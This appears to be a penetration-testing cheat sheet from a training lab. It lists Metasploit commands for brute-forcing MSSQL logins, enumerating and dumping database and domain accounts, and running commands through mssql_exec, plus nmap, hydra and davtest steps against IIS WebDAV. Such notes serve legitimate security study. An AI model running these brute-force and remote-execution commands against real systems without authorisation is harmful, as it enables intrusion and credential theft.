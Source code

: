 ```msfconsole
use auxiliary/scanner/mssql/mssql_login 
set RHOSTS <ip-address> 
set USER_FILE /root/Desktop/wordlist/common_users.txt 
set PASS_FILE /root/Desktop/wordlist/100-common-passwords.txt 
set VERBOSE false exploit
```

> MSSQL brute force using metasploit.

```msfconsole
use auxiliary/admin/mssql/mssql_enum 
set RHOSTS <ip-address>
exploit
```

> Running MSSQL enumeration module to find all possible information.

```msfconsole
use auxiliary/admin/mssql/mssql_enum_sql_logins 
set RHOSTS <ip-address> 
exploit
```

> Extract all MSSQL users.

```msfconsole
use auxiliary/admin/mssql/mssql_exec 
set RHOSTS <ip-address>
set CMD whoami 
exploit
```

> Execute a command using `mssql_exec` module.

```msfconsole
use auxiliary/admin/mssql/mssql_enum_domain_accounts 
set RHOSTS <ip-address> 
exploit
```

> This module dumps the information such as Windows domain users, groups, and computer accounts

#### Exploiting Microsoft IIA WebDAV:

```shell
nmap --script http-enum -sV -p 80 demo.ine.local
```
> check the webdev
```Shell
hydra -L /usr/share/metasploit/common_user.txt -P /usr/share/metasploit/common_passwords.txt <ip-address> http-get /webdav/
```

> Hydra can be used to brute force `webdav` directory if the authentication is enabled.

```Shell
davtest -url http://<ip-address>/webdav
```
